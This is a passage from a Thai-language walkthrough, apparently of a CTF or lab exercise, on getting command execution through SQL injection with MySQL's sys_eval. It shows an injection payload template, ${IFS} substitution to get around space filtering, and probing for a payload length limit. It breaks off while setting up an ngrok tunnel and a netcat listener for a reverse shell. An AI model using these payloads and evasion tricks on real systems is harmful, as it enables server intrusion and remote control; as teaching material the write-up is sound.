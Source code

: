 จึงเปลี่ยน เป็น `ls${IFS}/` ผลคือสำเร็จ สามารถใช้ ${IFS} แทนช่องว่างได้

<img src="./resources/55.png" alt="" style="width:80% !important;">

ต่อไปก็ไปลองคำสั่งอื่น ๆ เช่น `ls${IFS}book` , `ls${IFS}mysql` , `ls${IFS}/home` , `ls${IFS}/tmp`

**ผลคือ :** ไม่พบข้อมูลอะไรเลย เอาอีกแล้วเกิดอะไรขึ้นเนี่ย! หรือจะติด privilege หรือป่าว ไม่น่าจะเกี่ยวนะ

จึงทดลองใช้ command `echo` เพื่อจะ print ข้อความดูก่อนปรากฎว่า
- `echo 1` สำเร็จ
- `echo 11` สำเร็จ
- `echo 1111` สำเร็จ
- `echo` ไปเรื่อยๆ ยาวๆ ไป จนไม่สามารถใช้คำสั่ง echo ได้ แสดงว่า มีการ limit ความยาวของ payload ที่ส่งไปแน่ๆ

- จึงทำการลดรูปของ query ลงซะ ตรงไหนไม่เว้นวรรคได้ ตัดวงเล็บเกินๆ ออก ก็จะเหลือแค่
```bash
1' AND ''=(select sys_eval('<command>'))#
```

จากการทดสอบ พบข้อจำกัดหลายอย่างที่ต้องแก้ไข:

1. **Query Length Limitation:**
   - พบว่าจะใส่ query ยาวๆ ไม่ได้ มีการจำกัดความยาวของ payload
   - ต้องทำการย่อ payload ให้สั้นที่สุด

2. **Space Character Filtering:**
   - ใช้ `${IFS}` แทน space
   - ตัวอย่าง: `ls${IFS}/` แทน `ls /`

#### 6. Reverse Shell Setup
จึงคิดวางแผนจะทำ reverse shell: แต่จะใส่ payload ทั้งหมดไม่ได้แน่ๆ เพราะโดนจำกัดความยาวของ payload 

1. **Setup Listener:**
   ```bash
   # Start ngrok for tunneling
   ngrok tcp 4444

   # Setup netcat listener
   nc -lvnp 4444
   ```
   